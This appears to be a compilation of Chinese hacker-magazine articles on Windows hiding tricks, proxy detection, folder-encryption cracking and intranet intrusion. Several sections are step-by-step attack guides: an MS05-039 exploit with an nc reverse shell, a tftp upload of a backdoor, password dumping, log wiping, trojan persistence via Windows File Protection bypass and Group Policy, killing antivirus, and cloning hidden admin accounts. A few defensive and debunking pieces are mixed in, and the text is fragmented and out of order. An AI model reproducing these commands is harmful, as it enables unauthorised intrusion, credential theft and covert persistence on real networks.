在局域网中，很多人都可以通过网上邻居获取一定的信息……在“运行”中输入 `regedit`，找到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，新建 `NoNetHood`（DWORD），设为 1（0 是显示）。

- 2. 在网上邻居中隐藏自己的计算机  
  - (1) 修改注册表：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\Parameters`，将相关 DWORD 改为 `1`。  
  - (2) 命令行输入：`net config server /hidden:yes`。

- 3. 我的共享不让你看到  
在 CMD 下输入 `net share c$=c:\` 可设置默认共享；共享资源名后加 `$` 可隐藏。

- 4. 让默认共享只准自己喜欢的人访问  
可利用 NTFS/EFS 等方式对默认共享访问进行限制。

- 5. 更改共享的默认图标  
可以通过修改方式把默认共享图标改为其它样式。


图6

小手托着的图标，怎样修改这个图标呢？我们可以用 ICO 提取器选择合适的图标，然后更改。该方法在第五期杂志中我写的使用 IE 隐藏 hostname 的文章中已有介绍，这里不再多说。

## 三、网上的隐藏

- 1. touchnet  
一款不错的浏览器，代理功能较强，可通过“工具-多代理服务器”等实现网上隐藏。

- 2. HIDE IP  
可自动寻找代理 IP 并完成 IE 的代理设置。

- 3. steganos  
特点是每秒钟更换一次 IP 地址。

文章没什么技术含量，只是对隐藏的一些技巧总结，希望和广大菜鸟一起分享。（本文所涉及到的软件：WINDOWS 窗口隐藏专家、ZIGZAG CLEANER、PLUG、fhns、touchnet、HIDE IP 等）


### 黑灰（Black Mask）

代理，英文名叫 Proxy，在一些企业内部网里，有些主机不能直接上外网，因此会通过设置代理服务器访问外网。这种方式既有便利，也可能带来风险。

#### 一、谁是代理服务器

比如局域网里有 3 台电脑 A、B、C，其中 A、B 能上外网而 C 不能。若将 A 做成代理服务器，C 通过 A 上网……（示例说明代理转发过程）。

我在 A 电脑上运行“CCProxy”，点击“设置”，在“代理服务”里勾选 `HTTP/RTSP`，端口设为 `808`，其它默认，如图1。


图1

然后，再回到 C 电脑，打开“IE”>“Internet 选项”->“连接”->“局域网设置”，将“为 LAN 使用代理服务器”前打“√”，输入 IP：192.168.0.2，端口：808，如图2。确定，现在打开 IE 就可以浏览网页了，整个过程非常简单。


那么怎样才能抓出那个代理服务器呢？我们来到 B 电脑，运行“代理猎手”，点击“系统设置”->“验证数据设置”->“添加验证数据”，在“验证名”里填入：Web，在“验证地址”填入：www.163.com，在“特征字串”填入：`<title></title>`，确定，如图3。


回到主界面，点击“添加任务”，添加局域网 IP 地址（192.168.0.10—192.168.0.2），再下一步添加端口和协议，这里选择“单一端口”，端口填 808，开始扫描。很快就抓出来了，如图4。点击“验证”，成功获取了 163.com 的代码，如图5，这样就能说明 IP 地址 192.168.0.2 是一个 HTTP 代理服务器。


#### 二、谁利用代理来上网

现在我们已经找到了代理服务器了，那么接下来就把通过这台代理服务器上网的主机给揪出来。还是在 B 电脑上操作（因为它是网关），运行网络抓包工具“SpyNet”，选择自己本机的网卡，点“Start capture”开始抓包，如图6。


从图6中不难看出，192.168.0.94 是通过 IP 为 192.168.0.2、端口为 808 的这台代理服务器来上网的。方法很简单，有问题的朋友可以去论坛交流。（文中涉及到的工具 CCProxy、代理猎手、SpyNet 已收录）

## 小工具破解文件夹加密大师

- 我是孟星魂

当前使用最多的文件加密工具就是文件夹加密大师。在 X 档案上也有很多教程来破解这个软件加密后的文件，有的劳师动众，还要使用 GHOST，或是方法非常复杂，不适合菜鸟朋友使用。今天我就给各位介绍一款小工具，专门破解文件移动加密工具，希望对忘记密码或系统崩溃找不回加密文件的朋友有所帮助。

这款小工具就是 FolderSniffer。估计大家都用过专业的数据恢复工具 Drive Rescue；这个软件就是 Drive Rescue 修改过的内核版本，专门用来破解文件夹加密的。因为这类加密原理利用了文件系统漏洞，把文件放在回收站等位置。文中还提示了使用空文件夹名、DOS 下删除、避免优化软件清理等注意事项。


图2


图3


图4


图5

首先是破解本机加密，使用“本机加密”后的文件夹图标是一把锁，不管加密前是多大，加密后文件夹大小都是 1K。打开 FolderSniffer，选择完全扫描，等待一段时间后，会出现你机器上的所有盘符。选择你加过密的文件所在盘，直接点击打开。在根目录下的 Recycled 文件夹（就是回收站），顺便提一下，最好使用的时候先自己清空一下回收站，反正是不会丢失加过密的数据的。如果不清空，会有很多文件，只能一个个地找。确定后一般就是类似“加过密的文件”了，不出意外的话，加密文件就在最外层的最里层文件夹里，直接保存出来，轻松破解。注意目录的第一个文件夹是以 S 开头的，这也可以作为一个依据，如图2。

移动加密的破解也是一样的，“移动加密”后原文件夹里多了个“！加密解密”的 exe 文件，在“文件夹选项”里把“隐藏受保护的操作系统文件”前的复选框去掉，显示出了“Thumbs.db.很多随机的字母组合”这样一个文件，如图3。

这可不是普通的图像文件缩略图数据库，是一种文件夹格式，用来隐藏文件的。从大小上就可以看出来，这个文件和加密前的文件夹大小相同。这个文件没办法直接打开，点击就跳转到控制面板了。老办法：用 FolderSniffer 扫描，完成后在 FolderSniffer 里打开这个文件夹看看，是不是所有加过密的文件全在里面，如图4。

在这种加密方法中，移动加密文件夹里那个“！加密解密”的 exe 文件其实是可以独立运行的。如果不用 FolderSniffer，想直接破解还是比较困难的，在很多情况下可以使用。

最后就是隐藏加密了。隐藏加密后的文件夹在盘符里是看不到的，只能在程序主界面上操作。不过加密后文件还是放在了回收站里，用 FolderSniffer 扫描后打开回收站，就和本机加密的信息一样，保存出来就可以直接使用了，如图5。

到这儿大家都看到了，破解所谓的高强度加密就是如此简单。当然现在还有其他的一些加密方法，比如微软自带的 EFS 加密，小弟觉得这个加密效果很好，没有证书和密钥基本上破解不出来。

还有就是在原文件夹直接修改文件，这种加密是相对比较安全的，比如加密软件 omziff。这个软件能把 exe 文件用各种加密算法加密。当然加密后的文件没办法正常运行，还要用这个软件再还原，这种加密用 FolderSniffer 破解是无能为力的。

> （本文所涉及到的文件夹加密大师和 FolderSniffer 已收录到光盘中）

……强制删除回收站以节省空间，只要回收站被强制删除，所有数据都找不回来了。

看一下文件夹加密大师的三种加密机制，分别是本地加密、移动加密和隐藏加密，如图1。基本上效果都是一样的，都把你想加密的文件放在回收站里，并没有在源文件夹里加密。下面用 FolderSniffer 各个击破。

### 简简单单内网入侵

临床宋伟

对于 X 档案广大的读者来说，在内网中抓几只肉鸡应该不是什么难事儿吧，但是要想让内网中的所有电脑都成为自己的肉鸡，并且还是在安全防护不错的内网中，这可就不一定简单了。

我的思路来源于一个小工具 autoruns，当我打开这个工具后看到在注册表下有一个启动项是 `//server001/ip$/syspro`，内网中的计算机启动时都会自动加载这个程序，这样我们只要把这个程序替换为我们的木马程序，就可以实现对整个内网的控制了。


当我把 `rmtsvc.exe` 更改为 `syspro.exe`，在“运行”栏中输入 `\\server001\ip$` 打开对方系统的默认共享目录时提示共享错误。这很正常，因为其本身并非运行这个程序。于是我考虑先入侵 `SERVER001`，关闭默认共享后替换 `syspro.exe` 为木马程序，再重新开启共享，从而达到让内网所有电脑启动时运行木马的目的。

先来确定对方的 IP 地址。我打开 cmd，输入 `ping server001`，即可得到对方地址，如图2。


拿出端口扫描器 BLUENTPORTSCAN，发现对方开启了 139 和 445 端口。我试了下 `MS05039` 和 `MS04011` 远程溢出，都没有成功。

我又用 SHED 搜索了下共享，如图3。开放的内容不少，可以利用的方法有 IPC$ 和 WMI 服务，但都需要管理员账号和密码。当前关键是获取管理员账户和密码。


我打开 CMD 输入 `adump -f 1.txt` 来获取本地计算机的用户账户和密码，如图4。随后打开 remoxec，填入对方 IP 地址，输入账户和密码执行 `NET START TELNET` 时提示不存在该用户。

接下来我拿出 `ms05039scan` 对整个内网进行扫描。结果看到 IP 为 `192.168.1.150`、机器名为 PUBWIN 的主机存在漏洞。如果可以拿下它，也许其账户密码与 SERVER001 相同。

| IP | 主机名 | 漏洞状态 |
|---|---|---|
| 192.168.1.150 | PUBWIN | 存在漏洞 |

打开 CMD 输入 `nc -vv -l -p 520`，再在另一端执行 `ms05039 192.168.1.150 我的IP地址 520`。得到 shell 后上传 ANGSHELL 后门，并继续执行命令。


在 shell 中运行命令并通过 `tftp -i` 上传工具，执行 `mt -findpass` 成功得到对方账号和密码，如图7。


继续输入 `mt -clog all` 删除系统日志后退出。然后按前述思路通过 remoxec 执行 `tftp -i 我的IP地址 get rmtsvc.exe` 上传木马，再执行 `rmtsvc -i` 与 `rmtsvc -s` 完成后续控制。

IE 输入 `http://192.168.1.251:7778` 就可以控制肉鸡。随后通过开启 TELNET、使用 `runas /user:administrator cmd.exe`、关闭共享（如 `net share ip$ /del`）等步骤，进一步控制内网机器并替换相关进程。文中还提到若干工具与样本文件名。


### WFP 如此不堪一击

最近因研究后门，查阅了 WFP（Windows File Protect，文件保护）相关资料并做了实验，发现其并非牢不可破。

#### 破解 SFC

介绍了通过 `sfc.exe /?`、注册表项（如 `...\Winlogon\SFCDisable`）等思路尝试绕过系统文件保护，但该路线效果有限，作者最终放弃该方法。

#### 峰回路转

提到 `NtNotifyChangeDirectoryFile` 与 `winlogon` 监控受保护文件的关系；查阅资料后认为该方向理解困难、进展不大。

#### 批处理工具

作者测试了一个批处理替换工具（replacer），包括拖入待替换文件、观察提示、分析其附带 `data` 文件（实为 CAB）并解包查看脚本与可执行文件等过程。


#### 绝处逢生

```text
REPLACE [drive1:][path1]filename [drive2:][path2] [/A] [/P] [/R] [/W]
REPLACE [drive1:][path1]filename [drive2:][path2] [/P] [/R] [/S] [/W] [/U]

（并附各参数说明，如 `/A`、`/P`、`/R`、`/S`、`/W` 等）
```

开始我们的试验吧。先替换一个试一下，就把 clipsrv 换成 cmd 吧。把 cmd 复制出来重命名为 clipsrv，然后执行：`replace clipsrv.exe c:\windows\system32`，结果替换成功。好了，现在用 sfc 扫描一下系统（`sfc.exe /scannow`），结果如图3，看来自系统已经把它当作自己人了。


那么这个文件会不会被删除呢？我们删一下，如图4，然后数 3 声，按 F5 刷新，再看怎么样，是不是恢复的是我们的替换文件啊（图5）。


我们知道，这些文件的备份都保存在 dllcache 下，那现在 dllcache 是个什么样子呢，如图6，看来 Windows 真的彻底接纳它了。


最后的问题，那就是我们是否在最低权限下也可以搞定它？我在 2003 系统上激活 guest 后登录（权限最小嘛），替换成功，可是我确实是 guest 呀，你看我连用户都加不了（图7）。


#### 回马枪

既然我们可以替换回去，人家管理员也可以替换回来，那么我们要删除 `replace.exe` 这个文件，很简单啊。我们先复制出一个 `replace.exe` 重命名为 `a.exe`，然后再复制出一个 `cmd.exe` 复制为 `replace.exe`，再用命令 `a.exe replace.exe c:\windows\system32`，再把 `a.exe` 删除了。恭喜你，你以后就没有 `replace.exe` 了，如果硬要启动，那只能启动一个 cmd，哈哈。

#### 如何利用

这个就要看大家的创意了，我有几个思路，大家一起看看。记得在“dll 木马编写步步高”中提到过说 svchost 调用的是 dll，他举了个例子说把 EventSystem 服务调用的 es.dll 替换为我们的 Eventsystem.dll，一般人不会发现，可是瑞星看注册表监视，这个小动作还是逃不过去的。那么我们还有办法，比如原 es.dll 文件有个导出函数 a()，那么我们加这样的预编译指令：`#pragma comment(linker,"/export:a=unicode.a")`。这里假设我们把 es.dll 改成了 unicode.dll，然后将我们写的木马 es.dll 替换掉原 es.dll，将原 es.dll 重命名成 unicode.dll，这样一个不修改任何注册表的木马就诞生了！

还有一种思路，就是写一个一般的仅有网络功能的 dll 木马，然后修改成 explorer.exe 或者 cmd.exe 的导入表（导入表内添加我们的 dll 木马函数），然后结束 explorer.exe，紧接着替换文件，那么以后除非他重装系统，否则木马绝对清除不掉；如果删除了我们的 dll，explorer.exe 就启动不起来了。

尽说攻击了，我给大家说下怎么用这个工具防御。比如我们的服务器为了防止入侵者使用 net.exe，那么我们可以自己写一个 net.exe 替换掉原来系统的那个，然后把 net.exe 放进 U 盘内，那就除了你没人能用 net.exe 了，除非他自己带了个 net.exe。

以上测试全部是 FAT32 下的，NTFS 下如果限制得太严格，则是根本不可能完成替换的，因为 NTFS 从更底层来控制数据的。这个是我个人的推理，没有做测试，如果大家有什么更好的看法，也欢迎一起探讨！（本文所涉及到的 replacer 和作者分离的 replacer 已收录到光盘中）

> ### 上接 132 页

##### 一、忘记密码登录系统

在启用 WIN2000\XP\Server2003\... 的 SAM 替换 `WINDOWS\system32\config\SAM` 后登录，成功了吗？当然这个也有局限，通过 administrator 空密码开始时设置为空的情况，如果我们后来给 administrator 设置了密码而忘记了，可以此法一试。

##### 二、查找用户 SID

用记事本打开 `WINDOWS\repair\SAM` 文件，查找 `S-1-5-21-...` 类似字段。一般可据此定位用户 SID（如 administrator 结尾常见 500，guest 常见 501）。若 EFS 加密导致系统无法登录，可尝试依据原系统 SAM 中 SID 与目标系统 SID 对应进行处理。

## VStart也有黑客工具箱

黑暗中的行者

在前几期的杂志上介绍了“非君子迷你器”和 HackGP，它们都集成了一些常用的黑客工具，确实给菜鸟们带来了很大的方便，但是它们的不足之处也非常明显，比如里面的工具不能升级，还有一些工具是对自己没有用的。本文要介绍的音速启动（VStart）是一款很优秀的文件管理工具，它虽不是专为黑客设计的，但我们却可以用它来管理我们种类繁多的黑客工具，使它成为地地道道的黑客工具箱。

VStart 本身不自带任何工具，它只是以快捷方式的形式来运行我们硬盘里的工具，因此它集成的是快捷方式而不是工具。先来看一下它的界面，最吸引人的地方就是它仿 QQ 的界面，采用 OutLook 工具条的形式，和 QQ 一样浮在最上方，靠边时自动隐藏。再来看看它的功能，左边的三个小图标分别是“我的程序”、“我的文件夹”和“网址”三个类别，分别应用于软件、文件夹、网址的快捷操作。

点击第一个小图标，里面只有“常用软件”一个栏目，我们可以对栏目进行添加、删除、修改等操作，比如要添加“免杀专用工具”栏目可以这样操作：在原有的栏目上单击右键，选“新栏目”，在弹出的对话框中输入“免杀专用工具”确定即可。现在把自己硬盘里面的免杀专用工具都放到这个栏目里吧。在该栏目的区域中单击右键选择“添加文件”，在弹出的对话框中选择要添加到该栏目的文件即可。我们也可以增加“扫描工具”、“攻击工具”、“网页木马”、“远程控制”等栏目，将我们的工具分类，然后把相应的工具添加到相应栏目就可以了。如图1。

以后在使用工具的时候直接单击 VStart 里面的工具就可以了，不用再在硬盘里一层一层地翻找了。类别中的第三个小图标是网址，点击进入，在“网址”栏目中单击右键选“添加超链接”弹出对话框，在“标题”栏中填写网站的名称，比如黑客X档案，在“地址”栏里填上对应的网址 www.hackerxfiles.net，然后点“添加”按钮就成功添加了黑客X档案的超链接，以后单击“黑客X档案”就可以直接打开X档案的网站了，是不是很像一个黑客网站速开器啊，如图2。我们还可以在“类别”选项中添加别的类别。VStart 还有很多功能，比如天气预报、定时关机（在“菜单”→“计划任务管理”中添加）、万年历等，非常实用。在此就不一一列举了，大家就请亲自体验一下吧！

（文章中涉及到的工具 VStart 已经收录在光盘中）

图1  
图2

## IIS中FTP虚拟目录的妙用

风碧玉箫

相信不少朋友一定都用过微软自带的 IIS 中的 FTP 来架设自己的 FTP 站点吧！我开始学习 FTP 架站时就是从它开始的。后来玩得多了，发现 FTP 虚拟目录有一个非常有趣的地方。并且，我们完全可以利用这点来达到隐藏目录的目的。黑客的精神是共享嘛，今天我就把我的发现与大家一起分享。

首先，我们介绍 FTP 架站中的两个基本概念：主目录、虚拟目录。所谓主目录就是别人一登录你的 FTP 服务器所看到的内容所在的目录。对于 IIS 中的 FTP 站点，系统默认的主目录是 `C:\Inetpub\ftproot`。别人登录你的 FTP 服务器后并不能看到这个目录的名称，只能看到这个目录里的内容。而所谓虚拟目录，就是说别人在主目录里看到的目录，其中的内容不一定在该目录下，可能这个目录对应着磁盘上的另一个目录——这就是虚拟的含义。

安装好 IIS 组件后，启动“IIS Admin Service”和“FTP Publishing Service”服务。如何启动这两个服务我就不用多说了吧。对于经常看 X 档案的朋友来说，这简直就是小菜一碟！（什么？你还不知道？赶快拿出以前的 X 档案补补课吧！）。然后右击“我的电脑”，选择“管理”，展开“Internet 信息服务（IIS）管理器”，在“FTP 站点”的“默认 FTP 站点”中新建一虚拟目录，别名为 C，路径为 `C:\`（图1）。登录 FTP 查看，发现 FTP 根目录下根本没有名字为 C 的目录（图2）。

经常玩 Serv-U 的菜鸟对于这点可能会感到奇怪，因为在 Serv-U 中，建立起虚拟目录后登录 FTP 就会看到和建立的虚拟目录同名的目录。

在 IIS 中要看到这样的目录还不简单。因为我用的是“默认 FTP 站点”，所以它的默认主目录是 `C:\Inetpub\ftproot`。打开“我的电脑”，转到该目录下，新建一名为 C 的文件夹（图3），再次刷新 FTP，C 目录出现了（图4）。

难道这个虚拟目录就不起作用了吗？不！此时，虚拟目录依然有效，只不过对于我们来说这个虚拟目录在登录 FTP 时是不可见的而已。既然不可见，那又如何在登录 FTP 时浏览里面的内容呢？方法很简单。你先删除 `C:\Inetpub\ftproot` 中的 C 文件夹；再登录 FTP，然后在地址栏里追加 `c`，回车试试！显示的是不是别名为 C 的虚拟目录所指向的路径 `C:\` 里的内容（图6）？

并且进入 C 目录，出现的就是我们先前建立的虚拟目录 C 所指向的路径 `C:\` 中的内容（图5）。

为什么会这样呢？其实原因很简单：IIS 中的 FTP 会根据虚拟目录的名字自动匹配相应 FTP 目录下的对应文件夹。刚才，我们没有建立 C 文件夹时，登录 FTP 是看不到我们建立的虚拟目录的。也许小菜们又要问了，这好像还是没有什么用呀？

乍一看，似乎没用，但仔细一想……例如匿名账户对外提供 FTP 服务，而我这个人又懒得很，不想再建立新的 FTP 站点。此时，我又不想被别人看到我自己使用的个人目录，如上传目录 `up`，此时用这种方法就可以达到隐藏的效果。只建立别名为 `up` 的虚拟目录，却不在对应目录下建立 `up` 文件夹，这样别人浏览 FTP 时就看不到我的 `up` 目录了，而我自己使用时只需要在地址栏最后追加虚拟目录的别名，就可以访问并上传文件了。

本文只不过是挖掘了 IIS 中 FTP 虚拟目录的一个功能，来达到隐藏自己个人专用目录的目的而已。生活中不是缺少美，而是缺少发现。对于学习“黑客技术”的人来说，要有善于发现的精神，同时还要把发现的东西经过大脑思考，再到实际中来。

图1  
图2  
图3  
图4  
图5  
图6

## 备份 SAM 文件的一点点其它用途

放假了，把珍藏的 X 档案都搬回家，准备按杂志上介绍的方法实践。很不巧，在实践过程中就出事了……查看注册表 SAM 键的时候不小心把权限改错了，重启以后系统登录界面显示“账号出现错误，无法登录”。

想来想去，既然是账号的问题，应该和 SAM 文件有关吧。记得 Windows 2000/XP 重装系统第一次启动后会自动备份注册表，备份在 `WINDOWS\repair` 文件夹。于是从 U 盘启动，把 `WINDOWS\system32\config\SAM` 改为 `SAMBE`，把 `WINDOWS\repair\SAM` 复制过去，重新启动，成功。

下转130页

### “入侵”微软，菜鸟也会！

zj1244 小麦

### ——揭露入侵软件的骗局

近日网上疯狂流传着一个入侵微软官方网站的动画（图1），动画制作者称发现了 IIS 的一个绝世漏洞，利用这个漏洞能够黑掉世界上所有使用 IIS 的网站，还留下了联系 QQ。无数崇拜者怀着万众景仰的心情加了他，花了上万的银子去购买漏洞利用工具，或者拜师学艺！一时间江湖动乱，风云突变。中国何时出了这等人物？以前怎么都没有听说过这个人？抱着怀疑的心情我下载并观看了这个动画。

动画的步骤分为三步：

- 先溢出微软的网站 www.microsoft.com（图2）；
- 上传文件（1.txt）到 www.microsoft.com 上（图3）；
- 访问该文件（http://www.microsoft.com/1.txt），结果页面写有“XX者到此一游”的字样（图4）。

怎么样？菜鸟朋友是不是已经开始崇拜起他了？别急，千万不要上当了，因为仅凭这个动画实在难以令人信服。

#### 主要疑点如下：

- 动画过程中为什么不多点击几个链接来证明该网站确实是微软的网站呢？是不是怕露馅？
- 上传文件前没有证明文件到底是不是在微软服务器上，谁知道那个 1.txt 是不是早就在“微软服务器”上了？
- 为什么不上传 asp 木马？是不是怕 asp 木马显示的系统信息和实际情况不一样？如果真是微软服务器，他完全可以用 asp 木马的系统探测功能来展示一下微软的服务器是什么配置吧！
- 他这样做的动机何在？如果是想卖漏洞赚钱，那就不必做个动画出来给大家看。最好的办法是先在网上混点名声后，再把有名的站都黑掉。这样不止中国知道，全世界也都会知道，名气岂不是更大？

那他到底是怎么“黑”掉微软的呢？稍微有点经验的朋友动动脑子就能猜到：这不过是在 hosts 文件上做了手脚而已！

> **小知识：什么是 hosts 文件？**  
> 我们知道在访问网站的时候，需要通过 DNS 服务器把网络域名（www.microsoft.com）解析成 IP 地址后，我们的计算机才能在网络中寻找到该服务器。若是对每个域名请求都等待域名服务器解析返回 IP 信息，这样访问网络的效率就会降低。  
> hosts 文件是 Windows 系统中一个负责 IP 地址与域名快速解析的文件，以 ASCII 格式保存（Windows 2000 系统下位于 `C:\WINNT\system32\drivers\etc` 下，Windows XP 下则在 `C:\windows\system32\drivers\etc` 中）。大家在键入域名（比如 www.baidu.com）的时候，Windows 系统首先会去查看 hosts 文件中有没有关于此域名的 IP 地址记录。如果有，就直接用这个 IP 地址访问该网站；如果没有再查询 DNS 服务器。

知道了这个原理，我们就明白动画制作者是怎么“黑掉”微软的了！无非就是在 hosts 文件中修改了一下，让 www.microsoft.com 映射到自己的机器上，然后再做一个假的页面迷惑大家。访问 http://www.microsoft.com 的时候实际上就是在访问他自己做的网页，然后再模拟点一下他的“NB溢出工具”“上传”一个文件，再访问事先准备好的 1.txt 骗取大家的崇拜。既然“入侵”微软这么简单，我们也来“黑”一个网站玩玩吧。首先本机要开 Web 服务，如果不会使用 IIS 等 Web 服务软件也没有关系，我们用 ASPWeb 这个程序也可以轻松地架设 Web 服务。

### 傻瓜黑客

先运行 ASPWeb，然后单击参数设置，在弹出来的“参数设置”窗口进行参数设置：端口填 80，根目录填 `C:\Inetpub\wwwroot`，缺省文件填 `index.htm`（图5）。设置好后，单击启动服务，我们的 Web 服务器便架设好了。

我们以腾讯 QQ 的网站为例，先访问一下 www.qq.com，使用 IE 的“文件”→“另存为”把腾讯主页存到 IIS 的根目录下并存为 `index.htm`（图6），我保存到的是 `C:\Inetpub\wwwroot` 目录。这样再访问时，你看得出和真正的腾讯网站有什么区别吗？反正我是看不出来，如图8。

接着我们在 IIS 根目录下（本文是 `C:\Inetpub\wwwroot`）制作一个黑页，随便打上些字，比如“hacker by zj1244”，然后存为 `1.txt`。当然，为了模仿得更像一点，我们也装神弄鬼地制作一个所谓的“漏洞”利用工具：目标主机填上 www.qq.com，上传文件为 `c:\1.txt`，文件上传到 `/1.txt`（图9）。

然后我们浏览 `C:\WINNT\system32\drivers\etc` 目录，用记事本打开 hosts 文件，可以看到一大堆英文，那是微软对这个文件的解释，我们不必理它。把最后一行的“127.0.0.1 localhost”中的 localhost 改为“www.qq.com”（图7），这样当我们访问 www.qq.com 时，实际上就是在访问我们刚才制作好的网页了。

现在单击“黑了他”，打开 IE，在地址栏里输入 http://www.qq.com/1.txt，于是我们就这样把腾讯“黑”掉了，如图10。

好了，我想现在大家都学会“黑”任意网站了吧？有事没事黑那么几个网站，做成录像发给 MM 也挺好玩的，保管 MM 崇拜得要死。利用这个原理，小编虫虫也制作了一个入侵腾讯的录像并收录到光盘里，以博各位一笑。（文章中涉及到的“入侵微软”动画、ASPWeb、“入侵腾讯”动画已收录到光盘）

图5  
图6  
图7  
图8  
图9  
图10

## 原来组策略启动木马竟如此隐蔽！

牛晓东

关于木马的隐蔽启动方式，网上和杂志上已经介绍得铺天盖地了。但前天一位 QQ 黑友提起用组策略来启动木马的方式，我试了一下，还真不错。高手勿看，权当为菜菜鸟们上一小课。最后本法特别适用于 3389 肉鸡，或是能够物理接触对方机器的场景。

打开“开始”→“运行”，输入 `gpedit.msc`，运行组策略。在左侧窗格的“本地计算机策略”中依次选择“用户配置”→“管理模板”→“系统”→“登录”，此时右侧窗格中会出现相关项目，双击“在用户登录时运行这些程序”（图1）。

接着 Windows 系统会弹出其“属性”对话框，勾选“已启用”，激活下面“登录时运行的项目”后的“显示”按钮并单击（图2）。然后在弹出的“显示内容”窗口中单击右侧“添加”按钮，在“添加项目”窗口中输入木马程序路径。这里以系统画笔程序为例，路径为 `C:\WINDOWS\system32\mspaint.exe`，输入后点击“确定”（图3），返回时再“确定”一次即可。

重启电脑（或注销）后，画笔程序会在 Windows 启动后弹出，说明组策略已生效。再通过“运行”输入 `regedit` 查看注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`（图4），其中并没有画笔运行信息。

## 菜鸟也敢玩AIO

今天给大家带来一款命令行下的综合性攻防工具，其用法类似于鼎鼎大名的 MT，但功能更强。下面一起体验其强大的功能。

#### 入侵篇

对于菜鸟们，最想了解的是该工具在入侵中的用途。AIO 一般多用于在得到一台机器的 SHELL 后做后续操作与加固。以一台已装 RADMIN 的肉鸡为例，先将 AIO 上传到 `C:\WINNT\SYSTEM32` 目录，再使用 RADMIN 进入其 CMDSHELL 进行操作演示。

##### 3389 的进攻

得到主机控制权后，可尝试使用 `aio.exe -findpassword` 获取对方系统账户和密码（见图1）。获取到账号密码后可用于终端登录，开启终端服务并控制远程主机。AIO 可用于 WinXP/2000 Pro/2000 Server/2003 等终端服务，示例：`Aio.exe -Terminal 3389`（端口可改，见图2）。

##### 2. 恶整杀毒软件

为了让黑客工具能够更加安稳地在肉鸡上呆着，我们只好把杀毒软件赶出去。首先要列举进程，看看装了什么杀毒软件和防火墙，利用命令：`Aio.exe -Pslist`（图5）。

看见 `RavMon.exe` 了吗，一眼就认出了是瑞星，那么就来解决它吧。先把进程给结束了，用法：`Aio.exe -Pskill PID|进程名`。

```bash
Aio.exe -Pskill RavMon.exe
Aio.exe -Pskill Ravmond.exe
Aio.exe -Pskill CCenter.exe
```

依次执行以上三条命令之后，瑞星就顺利给结束了。接下来我们来更狠的，让瑞星无法开机自动启动，方法就是禁止它的服务启动。我们列举所有服务（图6）：

```bash
Aio -EnumService All      -> 列举所有服务
Aio -EnumService Running  -> 列举正在运行的服务
Aio -EnumService Stopped  -> 列举停止了的服务
```

其中 “Rising Process Communication Center” 和 “RsRavMon Service” 为瑞星的启动服务，禁止它们就 OK 了。若来个绝的，删除这些服务也可以。用法：`Aio.exe -StopService`（要停止的服务名），`Aio.exe -RemoveService`（要删除的服务名）。

为了避免管理员定期更改系统密码，导致留下的终端后门无法登录，我们来克隆一个隐藏用户以防万一吧。用法：`Aio.exe -Clone 正常帐号 要被克隆帐户 密码`，例子：`Aio.exe -Clone Administrator Guest hackerxfiles`，来测试一下登录（图3）。

如果肉鸡是在内网中，而我们又想使用 3389 登录控制的话，可以使用 AIO 的数据转发功能。用法：`Aio.exe -PortRelay`（“网游江湖”介绍了如何 IP 转发至端口），例子：`Aio.exe -PortRelay 3389 219.110.98.54 3389`。

好了，关于 3389 方面的应用就到此为止，因为 3389 登录都会留下登录次数，所以 AIO 还有一个将系统账户登录次数重置为 0（一般会这样就不容易露出破绽）功能。具体用法也很简单，加上 `-Never` 参数再加上用户名即可，例如：`Aio.exe -Never Guest`。最后，当然别忘了清除日志，这是黑客必备的一项技能，用法即 `Aio.exe -CleanLog`（图4）。

##### 3. CMDSHELL 下的文件传送

因为木马经常受到杀毒软件的追杀，很多时候需要给肉鸡更新服务端，让我们的肉鸡常居手中。可以通过把服务端放到网上，或者放到 FTP 站，让其下载来运行更新。FTP 下载文件：`Aio.exe -FGet FTP地址 端口 用户名 密码 要下载文件名`，HTTP ...把链接复制：`Aio.exe -MGet URL <保存为文件名>`（图7）。

图7

解决（图9）。重新启动后，`VKTServ.exe` 进程不再存在，病毒解决了。

图9

##### 2. 对付隐藏型后门

一步江湖的 RADMIN 大家都用过吧。用过的朋友就会知道，那东西免杀，启动方式是服务启动。原本想着直接从“我的电脑—管理—服务”中找到其服务，然后关闭。可是找了半天还是没找着，聪明的朋友应该想到什么了：对了，就是隐藏服务。  
还是让我们可爱的 AIO 来帮帮大家吧（AIO 是别人的劳动成果）。功能用法：`Aio.exe -FHS`（图10）。嘿嘿，找到了吧，还不赶快用 AIO 停止、删除它。

图10

##### 4. 星号密码查看器

当我们获得了对方的 3389 后，想查看对方一些敏感的密码信息时（除了前面说的系统密码外的其它密码），例如 OUTLOOK、路由器的密码，都是以星号的形式显示的，给我们带来了很大的障碍。可以请来 AIO，这些问题就容易解决了。命令行下输入：`Aio.exe -Unhide`，然后把鼠标放到星号处，对应的星号就显示出了其真正的密码（图8）。

图8

##### 3. 对付克隆账户

克隆账户在管理器上和 CMD 下都无法看到，也就是说，就算有人篡改了管理员权限的账户在我们计算机中，我们还是毫无所知。不过，使用 AIO，我们就可以轻松地把克隆账户给揪出来了。用法：`Aio.exe -CheckClone`（图11）。

图11

怎么样？暴露无遗了吧。可是，找出来也无法用正常的方法把这个用户删除，但可以用 AIO 特殊的参数 `-DelUser` 删除，甚至能够把系统内建账号给删除（图12）。

图12

#### 防守篇

AIO 在网马生成器中的基本功能，上面已经给大家介绍了。至于更深层的应用，还须大家自己去挖掘。下面我们要利用它来对我们的计算机进行安全防护。既然它是网络中的一把双刃剑，挂马的方法有很多。

##### 1. 对付进程型病毒（VKTServ.exe）

现在的进程型病毒已经比较少见了，但是依然存在。今天就教大家如何简单对付进程型病毒。`VKTServ` 是进程型病毒中的一个，十分讨厌。用进程管理器结束不了，我们使用 AIO 试试。方式和上边讲的对付瑞星进程一样：`Aio.exe -Pskill VKTServ.exe`。然后查看系统服务，病毒服务无法直接用管理器停止，我们可以使用：`Aio.exe -RemoveService VKTServ`。

#### 总结篇

功能强大的 AIO，不仅能在入侵中让我们游刃有余，还让我们在安全防护中做到得心应手，不愧为新一代 MT。（本文所涉及到的 AIO 也可见光盘）

---

## FTP文件搜索引擎在黑客中的运用

曾云好

